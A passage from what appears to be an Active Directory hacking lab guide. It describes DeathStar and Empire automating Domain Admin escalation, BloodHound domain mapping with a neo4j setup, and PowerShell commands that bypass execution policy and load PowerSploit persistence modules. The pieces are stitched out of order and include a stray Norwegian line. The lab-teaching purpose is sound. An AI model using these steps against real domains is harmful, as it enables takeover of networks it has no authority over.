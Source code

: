 
### DeathStar
I love all the Star Wars references. DeathStar is a pretty new tool for automating the entire process of becoming DA.
[byt3bl33d3r has documented it on his Github](https://byt3bl33d3r.github.io/automating-the-empire-with-the-death-star-getting-domain-admin-with-a-push-of-a-button.html).


Basically, you run the NTLMrelay attack from the previous step, but with Empire set up with a REST API. Then you just run DeathStar, grab a coffee and come back as Domain Admin.

Note: I have had some trouble making DeathStar and Empire cooperate. There's a little explanation of why in the DeathStar Github page. Hopefully, it will be stable soon.


### Mapping AD with BloodHound

One of the glorious design features of AD is that everyone needs to know where everything is. So when you get user credentials and/or a shell, you can basically map the entire domain. Any user can query Active Directory for groups and sessions.

Now we can use that to make a cool GUI map of the entire AD which can be quirired in using BloodHound.





set up neo4j
https://neo4j.com/developer/kb/how-do-i-enable-remote-https-access-with-neo4j-30x/

/opt/neo4j-community-3.1.1/bin/neo4j
start neo4j and set new password
edit neo4j.conf
dbms.connector.http.enabled=true
dbms.connector.http.listen_address=0.0.0.0:7474

launch bloodhound and log in to neo4j db

powershell -exec bypass
upload /path/bloodhound.ps1
Import-Module ./BloodHound.ps1
Invoke-BloodHound -URI http://SERVER:7474/ -UserPass "user:pass"

kan nå laste opp powersploit moduler.
upload /path/powersploit/persistence.msl1
import-module ./persistence.msl1
Get-SecurityPackages
## Becoming Darth Sidious: Creating a Windows Domain (Active Directory) and hacking it

_Mad credz to **lkys37en** from the netsecfocus slack channel for getting me all into this stuff, and eventually making this guide possible._

I strongly you read every step closely, as missing out on certain things can make everything not work as it should.

### VMware or Virtualbox
- Set up a host-only network with DHCP on the host machine.
- Start whatever DHCP service you are running on your host.
- If you're using ESXI or other types of hypervisors, you  probably don't need me telling you what to do.
